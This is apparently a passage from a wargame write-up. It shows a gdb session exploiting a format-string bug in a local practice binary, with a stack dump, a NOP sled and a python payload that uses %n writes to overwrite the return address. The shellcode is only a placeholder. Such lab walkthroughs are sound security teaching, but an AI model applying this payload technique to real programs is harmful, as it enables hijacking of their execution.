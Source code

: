 ```
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>: mov    eax,0x0
0x80483f3 <main+79>:    leave  
0x80483f4 <main+80>:    ret    
0x80483f5:  nop
0x80483f6:  nop
0x80483f7:  nop
0x80483f8:  nop
0x80483f9:  nop
0x80483fa:  nop
0x80483fb:  nop
(gdb) x/40xw $esp
0xbffff7d0:   0xbffff7e0  0xbffffdcf  0x000003ff  0x00160d7c
0xbffff7e0:   0xbffff8c0  0x41414141  0xbffff8c1  0x41414141
0xbffff7f0:   0xbffff8c2  0x41414141  0xbffff8c3  0x78383025
0xbffff800:   0x78383025  0x35393125  0x256e2578  0x78373032
0xbffff810:   0x32256e25  0x25783933  0x3934256e  0x906e2578
0xbffff820:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff830:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff840:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff850:   0x90909090  0x90909090  0x90909090  0x90909090
0xbffff860:   0x90909090  0x90909090  0x90909090  0x90909090
(gdb) x/20xw $esp+0x3f0
0xbffffbc0: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffffbd0: 0x00000000  0x00000000  0x00000000  0x08000000
0xbffffbe0: 0xb7e9d515  0xb7ff0590  0x0804841b  0x0000babe
0xbffffbf0: 0x08048410  0x00000000  0xbffffc78  0xb7e84e46 <- The return address
0xbffffc00: 0x00000002  0xbffffca4  0xbffffcb0  0xb7fe0860
```

Our NOP sled starts at 0xbffff850 and the return address is at 0xbffffbfc. Let's try overwriting the return address with an address in our NOP sled.
```
(gdb) run $(python -c "print '\xfc\xfb\xff\xbfAAAA\xfd\xfb\xff\xbfAAAA\xfe\xfb\xff\xbfAAAA\xff\xfb\xff\xbf%08x%08x%36x%n%168x%n%263x%n%192x%n' + '\x90'*100 + 'SHELLCODEZZZZZZZZ'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c "print '\xfc\xfb\xff\xbfAAAA\xfd\xfb\xff\xbfAAAA\xfe\xfb\xff\xbfAAAA\xff\xfb\xff\xbf%08x%08x%36x%n%168x%n%263x%n%192x%n' + '\x90'*100 + 'SHELLCODEZZZZZZZZ'")

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
```